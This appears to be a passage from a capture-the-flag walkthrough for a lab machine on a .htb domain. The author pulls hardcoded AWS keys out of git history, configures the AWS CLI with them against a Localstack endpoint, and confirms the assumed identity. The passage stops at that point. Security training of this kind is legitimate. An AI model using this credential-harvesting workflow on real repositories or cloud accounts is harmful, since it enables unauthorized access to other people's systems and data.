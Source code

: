 ```sh

commit 8de0f0454018ef58c55796c83acd19bd873f44d0
Author: maximus_supervisor <maximus_supervisor@emit.htb>
Date:   Tue Jul 4 05:19:49 2023 +0000

    Payload stack deployment
```

Identify AWS secrets within git version control:
```text
$ git log -p
..[snip]..
endpoint_url = '[http://cloud.emit.htb'](http://cloud.emit.htb') #Localstack v0.12.6
access_key_id = "AKIA6CFMOGSLALOPETMB"
secret_access_key = "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"
region = "us-east-2"
..[snip]..
RoleName: maximus-agent
```

AWS Endpoint Function Workaround (Added https://github.com/aws/aws-cli/pull/8006/commits/e34caf506696db97c24d40da5a45e3e5b3bc5cb2)
Make sure you are running the latest version of `aws-cli` so you don't have to type the `--endpoint-url` every time or use the following:
```sh
$ export AWS_ENDPOINT_URL=http://emit.unveiled.htb
function aws() {
	export AWS_DEFAULT_OUTPUT=yaml 
	if [ -z "$AWS_ENDPOINT_URL" ]
	then
		command aws "$@"
	else
		command aws "$@" --endpoint-url "$AWS_ENDPOINT_URL"
	fi
}
```

Configure AWS-CLI with new AWS credentials and check if we can access the private S3 bucket of `website-assets`.
```sh
$ export AWS_ENDPOINT_URL=http://cloud.emit.htb
$ aws configure
AWS Access Key ID [****************QTMA]: AKIA6CFMOGSLALOPETMB
AWS Secret Access Key [****************7CB5]: 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
Default region name [us-east-1]: us-east-2
Default output format [None]: yaml

$ aws sts get-caller-identity
Account: '925169031785'
Arn: arn:aws:iam::925169031785:user/integration_engineer
UserId: AKIAIOSFODNN7DXV3G29
```
